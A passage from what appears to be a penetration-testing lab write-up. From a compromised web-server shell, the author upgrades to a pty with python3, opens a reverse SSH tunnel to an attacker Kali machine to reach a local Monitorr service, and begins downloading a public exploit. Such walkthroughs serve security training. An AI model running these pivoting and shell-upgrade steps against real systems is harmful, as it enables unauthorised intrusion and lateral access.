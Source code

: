 We see that port `8443` is open for listening but if we open `http://192.168.100.72:8443/` in the browser, there is no response.

To access port `8443` , we will utilize protocol tunneling.

We begin protocol tunneling with the following command (SSH server must be running on the attacker machine):

```
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44
<on$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44                
Pseudo-terminal will not be allocated because stdin is not a terminal.
Could not create directory '/var/www/.ssh'.
Host key verification failed.
```

From the output we seem to have restrictions on our shell.

To avoid the restrictions of our shell we can spawn a bash shell through the `python3` interpreter:

```
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ python3 -c "import pty;pty.spawn('/bin/bash')"
<ion$ python3 -c "import pty;pty.spawn('/bin/bash')"                
www-data@erp:/var/www/html/inoerp/modules/sys/form_personalization$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44
<on$ ssh -R 8443:127.0.0.1:8443 kali@192.168.100.44                
Could not create directory '/var/www/.ssh'.
The authenticity of host '192.168.100.44 (192.168.100.44)' can't be established.
ECDSA key fingerprint is SHA256:njTwMdys9ogT4RiXrYmhObsAJBULOX0TxI1QX0MkMtk.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
yes
Failed to add the host to the list of known hosts (/var/www/.ssh/known_hosts).
kali@192.168.100.44's password: yourPassword

Linux kali 5.7.0-kali1-amd64 #1 SMP Debian 5.7.6-1kali2 (2020-07-01) x86_64

The programs included with the Kali GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Kali GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Feb 22 13:45:30 2022 from 192.168.100.72
kali@kali:~$
```

Now on `127.0.0.1:8443` we see an application titled `Monitorr` and discover the following [exploit](https://www.exploit-db.com/exploits/48980).

We begin by downloading the exploit to our attacker machine.

```
kali@kali:~$ wget https://www.exploit-db.com/raw/48980
```
